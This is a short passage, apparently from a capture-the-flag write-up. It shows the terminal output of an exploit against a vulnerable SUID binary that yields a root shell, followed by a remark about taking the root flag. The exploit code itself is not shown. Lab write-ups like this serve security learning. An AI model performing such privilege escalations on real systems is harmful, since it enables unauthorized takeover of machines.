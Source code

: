 ```bash
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
whoami
root
# 
```

And now we can get the root flag!
